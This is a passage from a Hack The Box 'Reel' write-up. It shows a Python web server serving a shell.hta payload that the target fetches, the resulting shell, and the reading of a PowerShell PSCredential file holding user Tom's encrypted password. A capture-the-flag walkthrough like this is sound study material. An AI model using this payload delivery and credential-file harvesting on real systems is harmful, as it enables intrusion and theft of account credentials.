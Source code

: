 In a few seconds, I got a hit on my python server.

```bash
root@kali:~/CTF/HTB/Boxes/Reel/CVE-2017-0199# python -m SimpleHTTPServer 80
Serving HTTP on 0.0.0.0 port 80 ...
10.10.10.77 - - [11/Aug/2020 21:41:58] "GET /shell.hta HTTP/1.1" 200 -
```

And I got a shell

![Untitled](/img/htb-reel/Untitled%201.png)

## PrivEsc → Tom

When I got through the files and Found encrypted password of user `tom` and they use Powershell's PSCredential, which provides a method to store usernames, passwords, and credentials. There are also two functions, Import-CliXml and Export-CliXml , which are used to save these credentials and restore them from a file.

```bash
Directory of C:\Users\nico\Desktop

28/05/2018  21:07    [DIR](DIR)          .
28/05/2018  21:07    [DIR](DIR)          ..
28/10/2017  00:59             1,468 cred.xml
28/10/2017  00:40                32 user.txt
               2 File(s)          1,500 bytes
               2 Dir(s)  15,769,726,976 bytes free

C:\Users\nico\Desktop>type cred.xml
type cred.xml
[Objs Version="1.1.0.1" xmlns="http://schemas.microsoft.com/powershell/2004/04"](Objs Version="1.1.0.1" xmlns="http://schemas.microsoft.com/powershell/2004/04")
  [Obj RefId="0"](Obj RefId="0")
    [TN RefId="0"](TN RefId="0")
      [T](T)System.Management.Automation.PSCredential[/T](/T)
      [T](T)System.Object[/T](/T)
    [/TN](/TN)
    [ToString](ToString)System.Management.Automation.PSCredential[/ToString](/ToString)
    [Props](Props)
      [S N="UserName"](S N="UserName")HTB\Tom[/S](/S)
      [SS N="Password"](SS N="Password")01000000d08c9ddf0115d1118c7a00c04fc297eb01000000e4a07bc7aaeade47925c42c8be5870730000000002000000000003660000c000000010000000d792a6f34a55235c22da98b0c041ce7b0000000004800000a00000001000000065d20f0b4ba5367e53498f0209a3319420000000d4769a161c2794e19fcefff3e9c763bb3a8790deebf51fc51062843b5d52e40214000000ac62dab09371dc4dbfd763fea92b9d5444748692[/SS](/SS)
    [/Props](/Props)
  [/Obj](/Obj)
[/Objs](/Objs)
```

Reference:

- [https://mcpmag.com/articles/2017/07/20/save-and-read-sensitive-data-with-powershell.aspx](https://mcpmag.com/articles/2017/07/20/save-and-read-sensitive-data-with-powershell.aspx)
